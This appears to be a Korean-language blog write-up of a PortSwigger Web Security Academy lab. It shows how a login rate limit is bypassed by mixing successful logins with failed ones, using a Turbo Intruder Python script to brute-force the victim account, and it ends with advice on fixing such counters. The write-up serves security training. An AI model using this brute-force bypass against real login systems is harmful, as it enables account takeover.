



+++
url = '/write-up/portswigger/authentication/write-up-portswigger---broken-brute-force-protection-ip-block/'
date = '2026-07-09T12:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Broken brute-force protection, IP block'
summary = "로그인 성공이 실패 카운터를 초기화하는 점을 이용해 실패·성공 요청을 섞어 IP 차단을 회피하고 피해자 비밀번호를 브루트포스하는 Authentication 풀이"
toc = true
tags = ["Authentication", "Brute Force", "Rate Limiting", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

> 

이 랩은 브루트포스 방어 로직에 결함이 있다. 브루트포스로 피해자 `carlos`의 비밀번호를 알아내 로그인하면 문제가 해결된다. 실습 계정은 `wiener:peter`이며 [password 후보](https://portswigger.net/web-security/authentication/auth-lab-passwords)가 주어진다.

### Authentication 진단

먼저 실습 계정으로 방어 로직을 관찰한다. 로그인을 **4번 이상 실패**하면 `You have made too many incorrect login attempts. Please try again in 1 minute(s).`가 반환된다.

문제 제목이 IP block을 지목하므로 `X-Forwarded-For` 헤더로 우회를 시도해 보지만, 이 랩에서는 헤더를 신뢰하지 않아 동일하게 차단된다. 차단이 걸린 뒤 우회는 어려워 보이므로, **차단이 걸리기 전에 카운터를 초기화**할 수 있는지로 방향을 튼다.

관찰해 보면 **로그인에 성공하면 실패 카운터가 초기화**된다. 4번째 실패부터 차단되므로, "실패 2회 → 성공 1회"를 반복하면 카운터가 3에 도달하기 전에 매번 초기화되어 차단에 걸리지 않는다. 내 계정 `wiener:peter`가 성공 요청 재료가 된다.

---

## 익스플로잇

`carlos`에 대한 비밀번호 대입 2회마다 `wiener:peter` 성공 로그인 1회를 끼워 넣도록 스크립트를 구성한다.

```python
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=50,
                           pipeline=False,
                           engine=Engine.THREADED,
                           maxRetriesPerRequest=3
                           )
    i=1
    for word in open(r'C:\Users\cas\Desktop\CAS\asset\word.txt'):
        engine.queue(target.req, ['carlos', word.rstrip()])
        if(i%2==0): engine.queue(target.req, ['wiener', 'peter'])
        i+=1

def handleResponse(req, interesting):
    table.add(req)
```

`concurrentConnections=1`로 순서를 보장해, "carlos 실패 · carlos 실패 · wiener 성공"의 리듬이 유지되도록 한다. 실행 후 302 응답 중 `carlos` 요청을 찾으면 비밀번호가 드러난다.



확인한 `carlos:michelle`로 로그인하면 문제가 해결된다.



---

## 정리

이 랩의 결함은 rate limit의 존재 여부가 아니라 **그 카운터를 리셋하는 조건**에 있다. 방어 로직은 "연속 실패 횟수"를 세지만, 로그인 성공을 만나면 그 값을 0으로 되돌린다. 공격자는 자기 계정으로 언제든 성공 요청을 만들 수 있으므로, 실패 사이사이에 성공을 끼워 넣어 카운터를 영원히 임계값 아래로 유지한다. 방어가 "성공은 정상 사용자의 신호"라고 가정했지만, 성공과 실패가 같은 IP에서 섞여 올 수 있다는 사실을 놓친 것이다.

핵심은 브루트포스 방어를 설계할 때 **가정을 공격자가 통제할 수 없어야** 한다는 점이다. 실패 카운터를 성공으로 초기화하려면 최소한 "동일 계정의 성공"이어야 하고, IP 단위 제한이라면 그 IP의 성공만이 그 IP의 실패를 상쇄해야 한다. 더 견고하게는, 시간 창(window) 기반의 절대 제한을 두어 어떤 성공도 실패 카운트를 지우지 못하게 한다.

진단에서는 rate limit을 만나면 **차단 후 우회**(`X-Forwarded-For` 등)와 **차단 전 리셋** 두 방향을 모두 본다. 이 랩처럼 헤더 위조가 막히면, 카운터를 초기화하는 조건(성공 로그인·시간 경과·세션 변경)을 찾아 그 조건을 주기적으로 충족시킨다. rate limit의 또 다른 우회는 [multiple credentials per request](/write-up/portswigger/authentication/write-up-portswigger---broken-brute-force-protection-multiple-credentials-per-request/)에서 다룬다.
